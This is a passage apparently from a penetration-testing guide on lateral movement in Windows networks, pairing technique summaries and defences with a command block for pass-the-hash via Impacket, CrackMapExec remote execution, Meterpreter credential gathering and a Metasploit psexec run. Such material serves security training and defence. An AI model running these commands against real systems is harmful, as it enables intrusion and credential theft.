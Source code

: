 ### 6.2 Lateral Movement

Moving between systems in the network:

1. **Pass-the-Hash Attacks**:
   - Technique: Using password hashes without knowing plaintext
   - Tools: Mimikatz, CrackMapExec, Impacket
   - Targets: Windows domains, NTLM authentication
   - Detection: Authentication monitoring, credential theft detection
   - Prevention: Credential Guard, LAPS, network segmentation

2. **Remote Command Execution**:
   - Techniques: WMI, PowerShell Remoting, PsExec
   - Tools: Impacket, CrackMapExec, PowerShell Empire
   - Targets: Windows systems with administrative access
   - Detection: Process monitoring, command-line logging
   - Prevention: AppLocker, constrained language mode, JEA

3. **Internal Service Exploitation**:
   - Techniques: Exploiting vulnerable internal services
   - Tools: Metasploit, custom exploits
   - Targets: Unpatched internal systems, legacy applications
   - Detection: Vulnerability management, network monitoring
   - Prevention: Patching, network segmentation, zero trust

```bash
# Example: Lateral movement techniques

# Step 1: Pass-the-Hash with Impacket
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 administrator@192.168.1.100

# Step 2: SMB execution with CrackMapExec
crackmapexec smb 192.168.1.0/24 -u administrator -p 'password' -x 'whoami'

# Step 3: PowerShell Remoting
crackmapexec winrm 192.168.1.100 -u administrator -p 'password' -X '$PSVersionTable'

# Step 4: Use Metasploit for lateral movement
# From a Meterpreter session:
meterpreter > run post/windows/gather/credentials/credential_collector
meterpreter > run post/windows/manage/autoroute
meterpreter > background

# Use gathered credentials for lateral movement
use exploit/windows/smb/psexec
set SMBDomain WORKGROUP
set SMBUser administrator
set SMBPass password
set RHOSTS 192.168.1.101
exploit
```
